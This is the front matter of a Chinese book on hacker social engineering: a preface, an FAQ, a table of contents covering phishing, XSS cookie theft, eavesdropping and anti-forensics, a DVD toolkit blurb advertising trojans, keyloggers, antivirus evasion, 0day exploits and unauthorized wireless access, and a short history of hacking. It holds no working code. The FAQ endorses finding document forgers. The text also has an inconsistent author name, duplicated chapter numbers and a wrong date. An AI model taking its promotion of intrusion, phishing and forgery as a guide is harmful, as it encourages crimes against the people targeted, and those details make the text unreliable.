## 黑客社会工程学攻击档案袋

作者：范建中 [lizaib]


## 作者简介

沈建中（网络ID：lizaib）

就读于湖南大学软件学院

火狐狸与安全团队站长（www.xh0nker.com）

珠海市红盟信息技术有限公司技术主管

于2002年接触网络安全，期间活跃在火狐、红狼安全小组社区；2006年开始陆续在国内安全杂志发表渗透测试文章，关注于非传统信息安全。

- QQ：363270151
- E-mail：lizaib@gmail.com
- Web：http://www.xh0nker.com
- Blog：http://lizaib.blogspot.com

出品人：非安全

本书作者：沈建中 [lizaib]

编著者：y4hoo、LCX、arteye、空气、小S、浪迹天涯、李文杰

版面统筹：阿海洋

特别编辑：观澜的沙砾、XApache、剑心、寂寞刺猬、张宇

Linux 4IN（专题）

主审校对：机器

网站：http://www.nhack.cn

网络编辑：空气

版权声明：转载请注明版权所有，未经同意，不得转载。

投稿信箱：nhack@21cn.com

邮购咨询：9999.wjmf@sina.com

光盘信箱：CD@nhack.cn



## 前言

很高兴！经过一年多的时间，本书终于与读者们见面了。感谢《黑客手册》杂志社提供的展示平台；也特别感谢眼镜猴编辑，以及周芳专业校对为本书的全文校对。请允许我对土豆也表扬一下，《黑客社会工程学攻击》顺利地出版，是他为我做了大量的铺垫工作，我期待能与他再度合作！（若土豆没意见的话，哈哈）——开玩笑！

说起来，读者们一定相当好奇，本书所讲的社会工程学攻击到底属于怎样的安全范畴呢？黑客入侵吗？非传统安全吗？

NO！该怎么说呢，它们之间都存在联系，其间的目标都是攻陷系统、窃取数据；而社会工程学技术则将这种入侵进行了最大化。它不仅能利用系统的弱点进行入侵，还能通过人的弱点进行入侵，当这两种技术天才般地融为一体时，使得根本不可能有安全的系统存在。技术高超的社会工程学师最终都能击溃它们的安全防线。

还能回忆起你较早的入侵经历吗？2003年至2007年之间，疯狂的系统入侵实在太简单了！首先流行的是缓冲区溢出攻击；我们只需拥有公网IP地址，再加上一个专门的系统漏洞扫描器，填入某个IP范围，在一连串红色醒目的漏洞提示中，仅需几小时便可拿下数千台存在安全缺陷的肉鸡。

随着时间的推移与系统的升级，使得溢出攻击不再辉煌。黑客们便重新盯上了Web漏洞。懒惰的程序员不对变量进行过滤，以及在源码开放的条件下，新一轮的攻击再次席卷互联网。刚入门的脚本小子们只需使用注入工具加上Google搜索引擎的利用，就可以给数百万站点置入恶意指令，或是挂上被占领后的类似于“网站被入侵”字样的黑客标记。

那么今天呢？2008年黑客们还会发掘出新兴的系统攻击方式吗？再次给系统及平台致命的打击吗？当然能！这种新的攻击方式称之为社会工程学攻击，这个曾一度拥有辉煌传奇而现在被遗忘的入侵方式再次被人们所重视！

众所周知，黑客攻击的门槛已越来越高，它似乎将任何不熟悉TCP/IP网络概念的新手阻挡在门外，使得那些不知晓挖掘系统漏洞、不会攻击杀毒软件的脚本小子在入侵上难上加难。

若你想解决上述问题，那么本书给你提供了一个完整的解决方案！当然，更重要的是，你还能从中知晓利用安全策略保护自己。

> 爱因斯坦曾说：“只有两种事物是无穷尽的——宇宙和人类的愚蠢。”

预计在将来，人为性的漏洞利用将成为主流。没有人敢说人是最聪明的、最愚蠢的、最安全的……这种脆弱性的威胁，一旦被利用便可带来极大的安全缺陷，并且没有任何一项工具能防御这种攻击。

这意味着这种攻击终会持续放大，不同国家的安全部门都将训练这样的人去试图渗透到彼此的重要机构中获取情报，甚至破坏重要的军事设施。这不仅仅影响到国家的安全，企业的管理者也应该开始注意。

然而，我无法向你保证，你不会在某天遭到类似的攻击。我们并不是从一出生，父母就开始教导如何小心或警惕心怀恶意的人。也许没有人愿意那样，那会使得我们无法感受到生活的快乐，而我给你的忠告是：在生活中多一点仔细观察。

在本书最后，我想感谢圈内好友对我的帮助；首先是火蚁技术联盟[XST]的Ansty，他计划在今年找到心爱的女朋友；还有泄露，我怀念与他第二次鼓捣国外的网站服务器——虽然失败了。红狼安全小组[CRST]是我经常去的社区，感谢孤独坏坏曾经尽帮我出些馊主意；还有伤心的鱼，希望他工作顺利；而深灰色这个家伙呢……感谢他的截图；同时感谢fhod提供的精彩案例，呵呵。

另外，感谢我身边朋友的支持，我的老三刘鹏，我的妹妹郭银也一直关注着本书的出版，我向你们致以真诚的感谢。

当然，还有在我生命中占有重要地位的母亲。在我还小的时候，她便让我经历了不同的社交场合，这使得我在复杂的环境中学习到极重要的人生经验。哦，差点忘记了，还有我的弟弟，他现在仍然不懂事，但我很想让他知道：哥哥很爱他。

## 图书简介

《黑客社会工程学攻击》是国内第一本涉及非传统信息安全主题的图书。非传统信息安全也泛指恐怖主义、能源、经济、文化、信息所引起的安全威胁问题。而本书将围绕个人及企业的信息威胁进行完整的阐述，包括信息跟踪、隐私挖掘、商业窃密、钓鱼攻击、心理学攻击、反侦查对抗等前沿的信息安全。

本书旨在帮助人们及政府、商业机构认识到社会工程学攻击所带来的威胁，以使个人及机构重要机密免遭窃取或被入侵的危险。

国家盛会2008奥运的举办无一不说明中国进入了数字信息时代，而新的挑战便是信息安全威胁，并且这种发展趋势越来越严重。传统的计算机攻击者在系统入侵的环境下存在很多局限性，而新的社会工程学攻击则将充分发挥其优势，通过利用人为的漏洞缺陷进行欺骗来获取系统控制权。

这种攻击在表面上是难以察觉的，不需要与受害者目标进行面对面的交流，不会在系统留下任何可被追查的日志记录，并迫使企业内部人员转移出信息资产给社会工程学师，这使得试图追查攻击者困难重重。

同时，每个人都不应忽视社会工程学攻击所带来的危害性。社会工程学师就像一个魔术师，左手吸引你的注意时，右手已悄悄带走你的重要文件。社会工程学师很会说话，懂得如何操作未知的专业设备，并拥有一套信息跟踪手法；在你拨打电话给他的时候，他会开玩笑地报出你的姓名、年龄、地址、信用卡号……

而本书的作者将向读者们展示并不为人知的社会工程学攻击内幕，由浅入深从全球头号黑客凯文·米特尼克入侵五角大楼经历说起，全面讲解社会工程学攻击的具体实施与细节，让读者们清楚地知道他们的攻击伎俩，通过书中所提供的案例可形象地认识到社会工程学攻击所带来的威胁。

对于社会工程学攻击所带来的诸多安全困扰，在第八章提供了完整的解决方案：可使大家尽量避免受到信息伤害；企业将知道如何通过培训相关人员及设置相关防护来阻碍社会工程学师的攻击。

## 阅读导航FAQ

- **Q：** 如何简单地理解社会工程学？  
  **A：** 社会工程学就是利用心理学知识使目标做你要求的事。
- **Q：** 有一些不认识的黑客术语我应该怎样弄明白呢？  
  **A：** 在本书的附录中有完整详细的黑客术语解释说明。
- **Q：** 我应该怎样才能学透每章所讲的知识？  
  **A：** 首先你应该查看书中相关案例，对攻击过程有一个大致认识。如果要用到相关软件，可以从光盘中搜索。当然，只看不做的话，是不会从中获取到有效经验的。
- **Q：** 社会工程学师在现实中是怎样的？  
  **A：** 说来奇怪，他们与普通人没有区别，但是有一点很明显：你不会很容易地从电脑中翻到他的密码文件。
- **Q：** 其中“安全铁律”的部分能从根本上保护我的企业免受信息伤害吗？  
  **A：** 不能！只能通过培训与教育来降低威胁的发生，保持警惕是必须的手段。
- **Q：** 法律能阻止社会工程学的攻击吗？  
  **A：** 看上去不可能，因为目前尚未有法律对相关手段进行严格的规定，绝大多数时，政府毫无办法，优秀的社会工程学师不会留下任何线索。
- **Q：** 如何在网络中避免个人受到社会工程学攻击？  
  **A：** 保护好你的个人信息，别谈论你的财产与工作情况。
- **Q：** 任何人都能成为社会工程学师吗？  
  **A：** 我不能否定，任何人都可以，这取决于他的能力，包括是否精于相关专业、拥有丰富的社会经验等。
- **Q：** 我发现，本书没有详细说明伪造技术，不是吗？  
  **A：** 由于法律的原因，我没有试图谈及音频、图片、视频技术的伪造。但伪造技术是一项最基本的技能。这意味着你得精于图形处理Photoshop，与音、视频的后期处理等。至于相关证件的伪造，你有很多渠道找到那样的人员，不是吗？
- **Q：** 作为本书的作者，你是否也会遭到社会工程学攻击？  
  **A：** 是的，有一次我使用IM聊天，一位陌生人问我是否属龙，并且报出了我的真实年龄，简直吓我一跳。我问对方是如何做到的，他说：“你的IM个人信息虽然都是错误的，但处女座是真的，我又看了你的博客，确定你的真实年龄应该是那样！”瞧，我和所有人都会犯这样的错误，把自己的隐私放在网上便会被人利用。


本部分适用于初学者的入门。在网络中学习，任何人都是这样走过来的，通过社区中的相互学习可以有效提升自己的能力。

- **当我有疑问时，应该怎么办？**
  - 百度知道：http://zhidao.baidu.com
  - 雅虎知识堂：http://ks.cn.yahoo.com/
  - 天涯问答：http://wenda.tianya.cn
  - 新浪爱问：http://iask.sina.com.cn/

- **我无法理解某个词语或是术语的意思，应如何做？**
  - 百度百科：http://baike.baidu.com
  - 维基百科：https://secure.wikimedia.org/wikipedia/zh/wiki/

- **在我看来，学习黑客我更喜欢看别人是怎样操作的，有黑客操作录像吗？**
  - 黑客动画吧：http://www.hack58.com/
  - 爱国者安全网：http://www.3800hk.com/
  - 华夏黑客同盟：http://www.77169.com/

- **我总是忙于寻找黑客软件或是资料文档，有更快的方法搜索吗？**
  - 狗狗资源搜索：http://www.gougou.com
  - 电驴资源搜索：http://www.verycd.com

- **我应关注于哪些安全社区呢？以便从中学到经验。**
  - 安全焦点：https://www.xfocus.net
  - 邪恶八进制：http://www.eviloctal.com
  - 红狼安全：http://www.wolfexp.net

- **书中提到RSS，我想获取更多更丰富的RSS资源，该如何做呢？**
  - 鲜果：http://www.xianguo.com
  - 抓虾：http://www.zhuaxia.com

- **我应该关注哪些安全博客以便获取最新的HACK资源？**
  - Neeao's Blog：http://www.neeao.com
  - 鬼仔's Blog：http://www.huaidan.org

- **我发觉有效率的学习应该备有黑客文档，国内有哪些安全杂志呢？**
  - 黑客手册：http://www.nohack.cn
  - 黑客X档案：http://www.hackerxfiles.net
  - 黑客防线：http://www.hacker.com.cn


## 第二章 黑客时代的神话

- 1.1 华丽而浪漫的安全对抗 12
- 1.2 凯文·米特尼克（Kevin Mitnick）简史 13
  - 1.2.1 美国五大最危险的头号黑客之一 13
  - 1.2.2 电脑化空间的头号通缉犯 14
- 1.3 什么是社会工程学攻击 15
  - 1.3.1 狭义与广义的社会工程学 15
  - 1.3.2 无法忽视的非传统信息安全 16
  - 1.3.3 攻击信息拥有者 17
- 1.4 第一个案例：编辑部的窃密事件 17
  - 1.4.1 巧妙地利用手机收集信息 17
  - 1.4.2 冒认身份获取系统口令 18
  - 1.4.3 伪造调查文件，设置陷阱 19
- 1.5 你该学习怎样的信息技能？21
  - 1.5.1 快速信息筛选与处理技巧 21
  - 1.5.2 快速掌握新技术的学习技巧 22

## 第三章 无处藏身——信息搜索的艺术

- 2.1 千万不要把真名放在网上 24
- 2.2 Google搜索引擎黑客 24
  - 2.2.1 Google高级搜索应用技术 24
    - 2.2.1.1 组合式语法搜索 25
    - 2.2.1.2 善用搜索特征码定位 25
  - 2.2.2 探寻敏感信息 26
  - 2.2.3 你在哪里？哪个市区？哪条街道？27
  - 2.2.4 第一手情报 29
- 2.3 门户站点，信息泄露的入口点 30
  - 2.3.1 围攻小企鹅——万能的QQ信息刺探 30
  - 2.3.2 网易、新浪、搜狐、雅虎聚会记 31
  - 2.3.3 高端用户的选择：Google与微软 32
- 2.4 综合信息的搜索，你会了吗？33
  - 2.4.1 你需要掌握的搜索引擎有哪些？33
    - 2.4.1.1 网页与图片的搜索 33
    - 2.4.1.2 博客与论坛的搜索 33
    - 2.4.1.3 论坛程序与网站内的信息搜索 34
    - 2.4.1.4 微型博客的搜索 35
  - 2.4.2 一些你不能忽视的信息查询 36
    - 2.4.2.1 你的同学在这里——校友录 36
    - 2.4.2.2 另类的窥秘点——搜人网 36
    - 2.4.2.3 邮箱的查询——支付宝 37
    - 2.4.2.4 IP地址、身份证与手机号码的查询 37
    - 2.4.2.5 域名Whois的查询 38
    - 2.4.2.6 QQ群信息搜索地疯狂 38
- 2.5 案例攻击应用与分析 39
  - 2.5.1 一个密码引发的“血案” 39
  - 2.5.2 一分钟，和美丽的女孩谈论天气的方法 49
  - 2.5.3 深层挖掘骗子黑客站长的秘密 52
  - 2.5.4 告诉你如何从博客搜索深层信息 56
- 2.6 尾语：是否真的无处藏身？59

## 第三章 商业间谍窃密技法

- 3.1 别再拒绝公司数据被窃取的事实 62
  - 3.1.1 内鬼，《征途》网游源代码泄露事件 62
  - 3.1.2 电信企业的脆弱，口令泄露事件 62
- 3.2 社会工程学师惯用信息搜索技巧 63
  - 3.2.1 从最无关紧要的员工开始 63
  - 3.2.2 冒称与利用权威身份 63
  - 3.2.3 垃圾桶，绝妙的信息翻查处 64
- 3.3 巧设人为陷阱套取信息 64
  - 3.3.1 寻找企业内部的矛盾 64
    - 3.3.1.1 事实！曾经的企业内鬼事件 65
  - 3.3.2 制造拒绝服务的陷阱 65
- 3.4 信息高级刺探技术 66
  - 3.4.1 自由交谈的内部术语 66
  - 3.4.2 信息调查表格——你准备好了吗？66
  - 3.4.3 看上去可信吗？——标准化策略 67
- 3.5 商业窃密惯用技法 68
  - 3.5.1 电话窃听技术 68
    - 3.5.1.1 任何人都会的手机监听方法 68
    - 3.5.1.2 智能手机高级窃密技巧 69
    - 3.5.1.3 窃听内部线路电话的技巧 69
  - 3.5.2 语音与影像监控 70
    - 3.5.2.1 无处不在的窃听 70
    - 3.5.2.2 影像监控——就在你的身后 70
  - 3.5.3 GPS跟踪与定位 71
- 3.6 案例攻击应用与分析 72
  - 3.6.1 淘宝网的盗窃者们 72
    - 3.6.1.1 一线生机 72
    - 3.6.1.2 交易 73
    - 3.6.1.3 最后的陷阱 74
  - 3.6.2 谁泄露了防火墙源代码？75
    - 3.6.2.1 销售部的后门 75
    - 3.6.2.2 合作者的阴谋 76
    - 3.6.2.3 消失的100万源代码 77

## 第四章 创建间谍挖隐私

- 4.1 让系统泄露你曾经的秘密 80
  - 4.1.1 芝麻开门，你去过哪些网站？80
  - 4.1.2 你最近碰过哪些文件？81
    - 4.1.2.1 我的文档历史 81
    - 4.1.2.2 最后的时间戳 81
    - 4.1.2.3 应用软件的蛛丝马迹 82
  - 4.1.3 缩略图，你的图片删干净了吗？82
  - 4.1.4 相片中的Exif信息 83
  - 4.1.5 最后的复制记录 84
- 4.2 应用软件也骚乱 84
  - 4.2.1 谁在临时目录偷偷留下了备份？84
  - 4.2.2 生成的文件，你有注意到么？85
- 4.3 Web 2.0，人性化服务背后的威胁 86
  - 4.3.1 像Google那般的令人恐怖 87
  - 4.3.2 信任，Web 2.0的大敌 88
- 4.4 实名制，致命的交通漏洞 89
  - 4.4.1 相信么？我知道你的一切！89
  - 4.4.2 加速高智能犯罪升级 90
  - 4.4.3 实名制信息安全不容忽视！91
- 4.5 你的隐私正在被谁偷窥？91
  - 4.5.1 隐藏的特洛伊木马 91
  - 4.5.2 嗅探，从数据包中挖掘你的秘密 92
  - 4.5.3 间谍软件，曾经的雇佣军团 94
- 4.6 案例攻击与应用 94
  - 4.6.1 典型性隐私泄露——木马屠城 94
  - 4.6.2 网吧实名制：中国人的黑手 96

## 第五章 窃探你心中的秘密

- 5.1 善用人性弱点的心理学攻击 99
  - 5.1.1 “入侵你的心” 99
  - 5.1.2 不要轻易给予信任 100
- 5.2 开始入门另类的攻击 100
  - 5.2.1 认识信念系统 101
  - 5.2.2 “需求层次”找出你的需要 102
  - 5.2.3 五个阶段，推测你的人生影响 103
- 5.3 神经语言程序学的“入侵” 104
  - 5.3.1 NLP始源与简史 105
  - 5.3.2 表象系统（Representational system）105
    - 5.3.2.1 你的表象系统是什么？106
    - 5.3.2.2 （犯罪现场鉴证）关键点 106
    - 5.3.2.3 模仿中的信任 108
  - 5.3.3 语言模式（Language Mode）108
    - 5.3.3.1 检定语言模式 109
    - 5.3.3.2 催眠性暗示语言模式 110
- 5.4 九型人格中的秘密 112
  - 5.4.1 什么是九型人格？112
  - 5.4.2 与不同人格的人交谈 112
- 5.5 长驱直入攻击信息拥有者 115
  - 5.5.1 塑造友善的第一印象 115
  - 5.5.2 让“帮助”来得猛烈点吧 116

## 第六章 网络钓鱼攻击

- 6.1 钓信用卡，钓隐私：恐怖的钓鱼攻击 119
- 6.2 钓鱼：盯上163邮箱 119
  - 6.2.1 将163邮箱整站扒下来 119
  - 6.2.2 继续完善，让伪造生效 120
  - 6.2.3 逃脱识别，进阶伪装 122
    - 6.2.3.1 使用header()函数跳转到真实163邮箱网站 122
    - 6.2.3.2 用javascript增加迷惑性 122
    - 6.2.3.3 逼真一点，神不知鬼不觉 122
- 6.3 真假网址PK假网址 123
  - 6.3.1 假域名注册欺骗 123
  - 6.3.2 状态栏中的网址欺骗 123
  - 6.3.3 巧妙利用URLs特性的欺骗 124
  - 6.3.4 IP转换与URL编码 124
- 6.4 电子邮件钓鱼 125
  - 6.4.1 钓鱼关键点：制造一封神秘的邮件 126
  - 6.4.2 伪造发件人地址 127
  - 6.4.3 弹指间，百万E-mail地址被收集 127
  - 6.4.4 坐等鱼上钩，钓鱼邮件群发 129
- 6.5 XSS跨站钓鱼也疯狂 129
  - 6.5.1 深入浅出解析XSS漏洞形成 129
  - 6.5.2 隐藏中的Cookie窃取 130
  - 6.5.3 亿聚网的登录框——XSS的另类钓鱼大法 132
- 6.6 劫持中的钓鱼艺术 134
  - 6.6.1 Hosts文件的映射劫持 134
  - 6.6.2 内网中的DNS劫持 135
  - 6.6.3 BHO，浏览器的劫持 136
  - 6.6.4 搜索引擎的SEO劫持钓鱼 137
- 6.7 将钓鱼攻击发挥到极致 138
  - 6.7.1 人们喜欢怎样的钓饵？138

#### 6.7.2 花样百出的钓鱼邮件制造
##### 6.7.2.1 邮件前置
##### 6.7.2.2 诱惑性标题
##### 6.7.2.3 精妙的邮件正文
##### 6.7.2.4 邮件跟踪调查

#### 6.7.3 强势的伪冒钓鱼站点
##### 6.7.3.1 弹出窗口
##### 6.7.3.2 无坚不摧的服务器

### 6.8 新式钓鱼攻击手段
#### 6.8.1 软件程序的谎言
#### 6.8.2 高利润的 SMS 钓鱼攻击

### 6.9 案例攻击与应用
#### 6.9.1 帮 MM 找回被盗 QQ
#### 6.9.2 揭露“QQ 中奖网络诈骗”全过程

## 第七章 反侦查技术与对抗

### 7.1 黑客必备的反侦查能力
### 7.2 无法追踪的网络影子
- 7.2.1 代理：信息中转站
- 7.2.2 VPN：虚拟专用网络
- 7.2.3 TOR：洋葱路由器
- 7.2.4 跳板：堡垒肉鸡防火墙

### 7.3 数据隐藏与伪装
- 7.3.1 COPY 合并与 WinRAR 伪装
- 7.3.2 在 Recycler 文件夹隐藏
- 7.3.3 利用 Desktop.ini 特性隐藏
- 7.3.4 PQ 磁盘分区隐藏
- 7.3.5 NTFS 文件流（ADS）隐藏
- 7.3.6 Rootkit 技术隐藏
- 7.3.7 畸形目录里的新东西

### 7.4 数据隐写技术
- 7.4.1 QR 密文信息隐写
- 7.4.2 MP3 音频文件信息隐写
- 7.4.3 BMP 与 GIF 图片信息隐写
- 7.4.4 Text、HTM、PDF 文件信息隐写
- 7.4.5 在线 JPEG 与 PNG 图片信息隐写
- 7.4.6 反汇编技术信息隐写

### 7.5 数据加密与破坏机制
- 7.5.1 加密数据档案
- 7.5.2 EFS 加密文件系统
- 7.5.3 五星级的加密工具
- 7.5.4 逻辑型文件擦除技术
- 7.5.5 物理型数据破坏

### 7.6 数据窃取的方式
- 7.6.1 Ghost：磁盘克隆
- 7.6.2 Recover：数据恢复
- 7.6.3 键盘与鼠标数据窃取
- 7.6.4 RAM 内存数据窃取

### 7.7 数字反取证信息对抗
- 7.7.1 主机数据信息核查
  - 7.7.1.1 CMD 命令信息核查
  - 7.7.1.2 法证工具信息核查
- 7.7.2 逃脱通信网络跟踪
  - 7.7.2.1 安全电话通信技巧
  - 7.7.2.2 泛洪淹埋网络信息
- 7.7.3 击溃数字证据
  - 7.7.3.1 错误的时间，正确的攻击
  - 7.7.3.2 数字证据藏在哪里了
  - 7.7.3.3 部署监控与自我销毁

## 第八章 安全检修

### 8.1 安全威胁触手可及
### 8.2 人员安全工程
- 8.2.1 免于密码窃取危险
- 8.2.2 正确的信息处理习惯
- 8.2.3 验证与授权程序

### 8.3 服务器安全防御
- 8.3.1 强化服务器策略
  - 8.3.1.1 程序安装的艺术
  - 8.3.1.2 配置系统的艺术
- 8.3.2 系统安全审计
- 8.3.3 建立安全防护屏障

### 8.4 无线网络安全缺陷与防护
### 8.5 堡垒式的物理安全
- 8.5.1 通信设备物理安全
- 8.5.2 部署周边监控与身份认证
- 8.5.3 数据分类与垃圾信息

### 8.6 全局保护——风险评估
- 8.6.1 信息资产鉴别与评估
- 8.6.2 威胁评价与风险管理

### 8.7 信息安全知识与培训
- 8.7.1 安全觉醒与培训
- 8.7.2 周期性渗透测试计划

## 第九章 像米特尼克那样

### 9.1 非凡而卓越的黑客事业
### 9.2 成为优秀的社会工程学师
- 9.2.1 好奇
- 9.2.2 投入
- 9.2.3 创新

### 9.3 组建庞大信息库的方法
- 9.3.1 Firefox
- 9.3.2 Google

### 9.4 智囊团，你的人脉资源
- 9.4.1 IM、BBS
- 9.4.2 社交活动

### 9.5 准备好你的工具箱了吗？
### 9.6 世界不是平的
- 9.6.1 端正的态度
- 9.6.2 黑客的信仰

附录  
后序  
全国经销商电话

## 光盘目录

## 《黑客社会工程学攻击》随书 DVD 工具包介绍

“天哪！这真是无敌的黑客攻击工具包!!!”在你查看 DVD 内容时，我猜你一定相当惊讶，因为你所看到的将是最全的黑客必备工具包。

这张 DVD 光盘中提供了非常全面的黑客工具，从攻击到防御，无所不包，是专门为广大的读者朋友们准备的，大家不必再花费大量时间去收集整理。所有的工具都经过 7-Zip 软件进行了压缩，强烈建议你再拷贝一份，以免丢失！

DVD 光盘中的内容由 11 个部分组成，分别是：2007 年世界黑客工具 TOP100 精选、WEB 攻击工具、国外黑客攻击工具、零日攻击工具、安全防护软件、无线攻击工具、木马病毒工具、社会工程学攻击、系统入侵工具、软件攻击工具、黑客资料集合。

### 光盘目录及简介

## 2007年世界黑客工具TOP100精选

由国外黑客组织投票评选出的优秀工具，作者精选后再提供给大家。

## WEB攻击工具

- **RFI 工具**：针对远程文件包含漏洞的各种扫描工具。
- **SQL 系列**：数据库浏览、SQL 连接器以及备份上传等工具。
- **刷流量**：增加站点访问人气，如刷百度空间以及 Alexa 排名。
- **抓包**：获取 HTTP 提交参数以及返回数据包内容。
- **注入攻击工具**：不同脚本语言与数据库的注入工具。
- **编包工具**：用于构造或处理数据包的工具。

## 国外黑客攻击工具

来自国外黑客组织所制作的黑客工具。

## 安全防护软件

- **安全防御软件**：杀毒、防火墙、主动防御等，能使你的系统更加安全。
- **恶意软件检测**：帮助您的系统降低威胁，包括检测 Rootkit、恶意劫持及系统完整性。
- **监测工具**：检测网络状态、监视文件或注册表是否被恶意软件更改。

## 无线攻击工具

带上你的笔记本电脑，可用它进入未经授权的无线网络。

## 木马病毒工具

- **Bind 文件捆绑**：可用来隐藏文件、捆绑恶意软件，捆绑检测工具能帮你检查文件的完整性。
- **DDoS 拒绝服务攻击**：拒绝服务攻击可让网络中的主机不再提供正常的网络服务。
- **Door 后门工具**：方便下次再次顺利控制肉鸡的工具，如典型的账户克隆、Shift 后门等。
- **DOWN 下载者木马**：它为网页木马服务，生成的服务端极小，现在用于干掉安全软件。
- **Keylog 键盘记录**：任何用键盘所输入的数据都将被偷偷记录下来。

## Meta木马查杀工具

木马变种：方便你的木马长久生存，并逃脱杀毒软件的报警。

脚本变种：WebShell 的免杀工具，有使用加密函数、替换、更改大小写等方式的免杀。

## Paper网马工具

利用系统或应用程序漏洞所生成的挂马程序。

## RAT远程控制木马

从最初的冰河开始，国产木马出现大批量的生产。

## Shell网页木马

ASP、PHP、ASPX、JSP 等网页木马。

## 社会工程学攻击

## Google黑客工具

毫无疑问，Google 永远是黑客们的最爱。

## Info敏感信息工具

对系统及应用程序文件进行敏感信息的收集，如 QQ 聊天记录读取器等。

## Password密码破解工具

文档密码破解、系统密码破解、邮箱密码破解、其他破解。

## 数据恢复

用以恢复硬盘、移动存储、手机中尚未覆盖的数据。

## 数据隐写

将重要的信息隐写于图片、音频、文本文件中。

## 代理工具

隐藏你的网络访问及攻击痕迹。

## 字典

用以破解登录密码、MD5 等生成的词典文件。

## 系统攻击工具

## 命令执行工具

小巧的命令行执行工具，简化了系统入侵步骤。

## 局域网攻击工具

操作局域网的工具，包括扫描、攻击等。

## 数据嗅探工具

基于协议的嗅探工具，可嗅探不同端口所传输的密码。

## 痕迹清除

用以清除系统相关的日志记录，如 IIS、系统日志等。

## 端口

端口扫描的工具。一旦开放某个端口，意味着服务的开放与漏洞的产生。

## 综合工具

它们多数集成常见的攻击与扫描。

## 踩点扫描工具

用以扫描系统主机信息、漏洞信息、网络拓扑等。

## 软件攻击工具

进行调试、汇编、分析、PE、保护等的工具。

## 零日攻击工具

## 入侵权限提升

在低权限的状态下，可利用系统与应用程序的 Bug 提权。

## 应用程序0day

流行的应用软件利用程序，如迅雷、QQ、RealPlayer 等利用工具。

## 微软exp攻击工具

收集了 MS 系统众多服务的漏洞利用工具。

## 脚本程序0day

WEB 动态语言所写的脚本程序利用工具，如动网、Discuz! 利用工具。

## 黑客资料集合

一个庞大的黑客资料库，你会经常用到它。

## 第一章 黑客时代的神话

- 华丽而浪漫的安全对抗
- 凯文·米特尼克（Kevin Mitnick）简史
- 什么是社会工程学攻击
- 第一个案例：编辑部的窃密事件
- 你该学习怎样的信息技能？

## 第一章 黑客时代的神话

## 1-1 绚丽而惊魂的安全对抗

从 19 世纪 70 年代 AT&T 的贝尔实验室的电话流行到电话黑客盛行，随后，接踵而来的是电脑黑客的兴起。黑客（hacker）一度是电脑发展史上的英雄，他们能创造性地发现系统的漏洞并改变计算机系统的安全，但谁都不能质疑事物带来的两面性，那就是创造与破坏、改变与重建。

作为读者的你，也许还不了解“黑客技术”对世界所带来的影响，以下是转载的部分黑客史话：

- 1970 年，约翰·德拉帕尔发现“哆哆船长”牌麦圈盒里的口哨玩具吹出的哨音可以开启电话系统，从而借此进行免费电话拨打。他在黑客圈里叫做“哆哆船长”，这带动了电话偷窃的开始。
- 80 年代初，计算机地下组织开始形成，出现了最早的计算机窃贼。1984 年，德国汉堡出现了一个名叫“混沌”的计算机俱乐部（CCC），其成员竟然通过网络将 10 万美元从汉堡储蓄银行转到 CCC 账号上。1987 年，CCC 的成员攻入了美国宇航局的 SPAN 网络。
- 1988 年 11 月 2 日，美国康奈尔大学 23 岁学生罗伯特·莫里斯向互联网释放了“蠕虫病毒”，美国军用和民用电脑系统同时出现了故障，波及数量达到 6200 台，约占当时互联网电脑总数的 10% 以上，用户直接经济损失接近 1 亿美元，造成了美国高技术史上规模空前的灾难事件。
- 1995 年，俄罗斯黑客列文在英国被捕。他被控用笔记本电脑从纽约花旗银行非法转移至少 370 万美元到世界各地由他和他的同党控制的账户。
- 1999 年 3 月，美国黑客戴维·史密斯制造了“梅丽莎”病毒，通过因特网使全球数百万台计算机和数万台服务器遭受传染。
- 2000 年 2 月，全世界黑客联手发动了一场“黑客战争”，把整个网络搅了个天翻地覆。神通广大的神秘黑客接连袭击了因特网最热门的八大网站，包括亚马逊、Yahoo 和微软，造成这些网站瘫痪长达数小时。FBI 仅发现一个名为“黑手党男孩”的黑客参与了袭击事件，对他提出的 56 项指控只与其中几个被“黑”网站有关，估计造成了达 17 亿美元的损失。
- 2000 年 5 月，菲律宾学生奥内尔·古兹曼炮制出“爱虫”病毒，因电脑瘫痪所造成的损失高达 100 亿美元。
- ……

聪明的黑客爱好者会发现，我没有列举凯文·米特尼克这位伟大黑客的事迹，呃，后面的章节自有介绍。

事物发展的自相矛盾是显而易见的，科技发展带来好的一面又带来坏的一面，技术也是如此。没有早期的黑客编写的开放源码系统 Linux，就不会给世界带来数百亿的财富；没有今天的黑客寻找臭虫（Bug），就不会见到与日俱增而新锐的软件产品。尽管它有破坏，但别全盘否定，它所带来的财富也是无法估计的。

